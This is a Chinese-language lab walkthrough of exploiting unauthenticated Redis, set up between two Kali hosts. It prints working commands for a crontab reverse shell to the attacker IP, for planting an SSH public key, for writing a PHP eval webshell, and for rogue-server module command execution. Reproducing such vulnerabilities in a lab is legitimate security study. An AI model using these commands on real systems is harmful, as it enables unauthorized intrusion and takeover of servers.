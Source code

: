 # Redis未授权

## 1.1、漏洞描述

（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；

（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。

## 1.2、影响版本

redis 4.x/5.x或以前的版本

## 1.3、漏洞复现

> kali攻击方：192.168.8.20
>
> kali靶机：192.168.8.8

### 环境搭建

> 两台主机都要有redis环境

```bash
apt-get install gcc
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xf redis-2.8.17.tar.gz
cd redis-2.8.17
make
cd src
./redis-server   #启动redis服务端
```

![image-20231019203609688](./imgs/image-20231019203609688.png)

查看开放端口

```bash
ss -antpl
```

![image-20231019203714913](./imgs/image-20231019203714913.png)



| 读取数据库内容 | 读取系统文件                                                 | 执行系统命令                                                 |
| -------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 信息泄露<br>   | 直接写WebShell<br><br/>计划任务反弹Shell<br/><br/>SSH免密登录<br/><br/>.... | [redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)<br>[redis REC-EXP](https://github.com/n0b0dyCN/redis-rogue-server) |



### :heart_eyes_cat:写入计划任务获取反弹shell

> 由于Redis存在未授权访问漏洞，所以无需账号密码就可以在我们的Redis目录下去远程控制靶机的Redis数据库，但是我们希望不仅仅是可以操作对方的Redis数据库，想提权去控制服务器，比较容易想到的就是想办法写个反弹shell，让靶机来连接我们，如果可以成功反弹，我们就可以提权。我们想到可以让靶机设定一个定时来连接攻击机的计划任务，从而实现反弹；但是写计划任务是需要在计划任务的目录`/var/spool/cron`中去执行命令，而我们现在只能操作数据库，根本没办法去进入到服务器的计划任务目录，更别说是写计划任务。
>
>  因此我们的思想就是：Redis把Redis持久化文件的写入目录改成存放计划任务的目录，因为这个操作是针对Redis的，所以这个操作是可以完成的；然后将持久化文件名更改为root，这样就可以覆盖系统上root用户的crontab文件；之后我们用redis的set命令写入一个键值对（set 命令必须得写成键值对），值就是反弹shell的命令；保存后，我们就成功地借用Redis数据库向服务器的计划任务里加入了一个反弹shell的计划任务，然后在攻击机进行监听，就可以成功提权。

1、攻击方连接靶机客户端

```bash
redis-cli -h 192.168.8.8
```

![image-20231019203800214](./imgs/image-20231019203800214.png)



2、用Redis的config set命令来更改靶机的Redis持久化目录，把Redis的持久化目录改成系统计划任务的目录

```bash
config set dir /var/spool/cron/crontabs
```

> **由于系统的不同，crontrab定时文件位置也会不同：**
>
> Centos的定时任务文件在`/var/spool/cron/<username>`
>
> Ubuntu/Kali的定时任务文件在`/var/spool/cron/crontabs/<username>`

3、用Redis的config set命令来重命名文件，覆盖掉原有的root文件

```bash
config set dbfilename root
```

4、使用Redis的set命令，往持久化目录文件里写一个键值对（这是set命令的格式要求，必须写键值对），键随便起，我起的是saury，值就为反弹shell的命令

```bash
set saury "\n* * * * * bash -i >& /dev/tcp/192.168.8.20/6868 0>&1\n"
save
```

![image-20231019204043197](./imgs/image-20231019204043197.png)

这步如果执行成功了之后，我们可以去靶机上看一眼，看看计划任务目录里的root文件内容有没有写进去

root权限查看哦!!!!!!

```bash
cd /var/spool/cron/crontabs
vim root
```

![image-20231019204057507](./imgs/image-20231019204057507.png)

也可以使用`crontab -l`查看



5、攻击机监听6868端口

```bash 
nc -lvp 6868
```

> 正常情况到这里，等待一分钟就应该接收到反弹了，但是实验中发现并没有。查阅资料发现：有可能是这个版本的crontab对计划任务格式的要求很严格，而在Redis中写入文件时，会自动在文件的开头和结尾写入部分格式头尾，也就是那些乱七八糟的前后缀，导致没有识别出计划任务，就没有成功执行，但复现原理和过程应该是没问题的。所以这个利用方法是有BUG的，不一定成功。

6   为了看到效果，我们可以在靶机上把乱七八糟的前后缀去掉，再等待一下，发现成功反弹。

![image-20231019204121718](./imgs/image-20231019204121718.png)





### :heart_eyes_cat:利用SSH写公钥，免密登陆

> 前提条件：目标机器开启了ssh服务，且以root权限启动redis

攻击机生成公钥

```bash
ssh-keygen -t rsa
```

防止其他数据干扰给在公钥内容前后加入换行：

```bash
(echo -e "\n\n"; cat /home/kali/.ssh/id_rsa.pub; echo -e "\n\n") > my.txt
```

将公钥发送到对方redis服务器的缓存中

```bash
cat my.txt | redis-cli -h 192.168.8.8 -x set hello
```

![image-20231019205026895](./imgs/image-20231019205026895.png)

将公钥写入ssh目录

```bash
redis-cli -h 192.168.8.8
config set dir /root/.ssh # 设置redis的备份路径为/root/.ssh/
config set dbfilename authorized_keys # 设置保存文件名为authorized_keys
save # 将数据保存在目标服务器硬盘上
```

![image-20231019205507935](./imgs/image-20231019205507935.png)

### :heart_eyes_cat:利用Redis写WebShell

> 前提条件：需要对方开启了web服务和知道web路径，并有读写权限。
>
> ​		      无需是 root 起的 Redis

```bash
set x "\n\n\n<?php @eval($_POST[cmd]);?>\n\n\n" #加入\n\n\n防止乱码影响shell
config set dir /var/www/
config set dbfilename shell.php
save
```

### :heart_eyes_cat:Redis未授权执行系统命令

环境：`/vulhub/vulhub/redis/4-unacc`

`docker-compose up -d`启动环境后，连接`redis`客户端

无密码，直接连接成功

```bash
┌──(kali㉿kali)-[~/Vulnerability-library/vulhub/redis/4-unacc]
└─$ redis-cli -h 127.0.0.1   
127.0.0.1:6379> info
# Server
redis_version:4.0.14
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:3914f9509eb3b682
redis_mode:standalone
os:Linux 6.1.0-kali9-amd64 x86_64
.......
.......
```

![image-20230901185901167](./imgs/image-20230901185901167.png)

从`github`上把[redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)这个项目克隆下来

```
cd redis-rogue-getshell/RedisModulesSDK/
make
```

会生成一个`exp.so`文件，编译时会报错，不影响我们操作

```
cd ../
python3 redis-master.py -r 127.0.0.1 -p 6379 -L 192.168.80.141 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

执行`id`命令

![image-20230901192352869](./imgs/image-20230901192352869.png)

执行其他命令

```python
python3 redis-master.py -r 127.0.0.1 -p 6379 -L 192.168.80.141 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
```

![image-20230901192429115](./imgs/image-20230901192429115.png)



## 1.4、检测未授权访问漏洞检测工具

[下载地址](https://github.com/xk11z/unauthorized_com)

## 1.5、参考

- [面试经典 Redis未授权漏洞与组合拳](https://www.freebuf.com/vuls/349094.html)